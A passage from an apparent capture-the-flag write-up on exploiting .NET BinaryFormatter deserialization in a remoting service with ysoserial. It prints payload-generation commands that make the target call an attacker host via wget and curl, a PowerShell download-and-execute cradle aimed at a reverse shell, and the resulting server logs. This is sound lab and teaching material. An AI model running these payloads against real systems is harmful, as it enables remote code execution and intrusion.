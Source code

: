 Some more research led to this GitHub page with a project that called itself:

> A proof-of-concept tool for generating payloads that exploit unsafe .NET object deserialization.

Since this server relies on xml deserialization, and the `notes.txt` from earlier mentions that input sanitization is still a "todo", this may work.

```
PS C:\Users\User\Desktop\ExploitRemotingService-master\ExploitRemotingService\bin\Debug\Release> ./ysoserial.exe -f BinaryFormatter -g PSObject -o base64 -c "wget http://10.10.14.172:8090/" -t
AAEAAAD/////
```

Used `ysoserial.exe` to take my payload and make it a base64 serialized object

```
System.InvalidCastException: Unable to cast object of type 'System.Management.Automation.PSObject' to type 'System.Runtime.Remoting.Messaging.IMessage'.
   at System.Runtime.Remoting.Channels.CoreChannel.DeserializeBinaryRequestMessage(String objectUri, Stream inputStream, Boolean bStrictBinding, TypeFilterLevel securityLevel)
   at System.Runtime.Remoting.Channels.BinaryServerFormatterSink.ProcessMessage(IServerChannelSinkStack sinkStack, IMessage requestMsg, ITransportHeaders requestHeaders, Stream requestStream, IMessage& responseMsg, ITransportHeaders& responseHeaders, Stream& responseStream)
```

Got back this error after running the exploit with this payload

```powershell
PS C:\Users\User\Desktop\ExploitRemotingService-master\ExploitRemotingService\bin\Debug\Release> .\ysoserial.exe -f BinaryFormatter -o base64 -g TypeConfuseDelegate -c "cmd.exe /c curl http://10.10.14.172:8090/"
AAEAAAD/////
```

After a lot of trial and error, I came up with this working payload.  

```cs
System.InvalidCastException: Unable to cast object of type 'System.Collections.Generic.SortedSet`1[System.String]' to type 'System.Runtime.Remoting.Messaging.IMessage'.
   at System.Runtime.Remoting.Channels.CoreChannel.DeserializeBinaryRequestMessage(String objectUri, Stream inputStream, Boolean bStrictBinding, TypeFilterLevel securityLevel)
   at System.Runtime.Remoting.Channels.BinaryServerFormatterSink.ProcessMessage(IServerChannelSinkStack sinkStack, IMessage requestMsg, ITransportHeaders requestHeaders, Stream requestStream, IMessage& responseMsg, ITransportHeaders& responseHeaders, Stream& responseStream)
```

Using the base64 format I kept getting this error, 

```powershell
PS C:\Users\User\AppData\Local\Programs\Python\Python39> ./python -m http.server 8090
Serving HTTP on :: port 8090 (http://[::]:8090/) ...
::ffff:10.10.10.219 - - [23/Apr/2021 21:06:54] "GET / HTTP/1.1" 200 -
```

But the payload still executed. I wondered if I was able to send myself a reverse shell

```powershell
PS C:\Users\User\Desktop\ExploitRemotingService-master\ExploitRemotingService\bin\Debug\Release> .\ysoserial.exe -f BinaryFormatter -o base64 -g TypeConfuseDelegate -c "powershell -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.172:8090/test.ps1')"
At line:1 char:1
+ .\ysoserial.exe -f BinaryFormatter -o base64 -g TypeConfuseDelegate - ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```
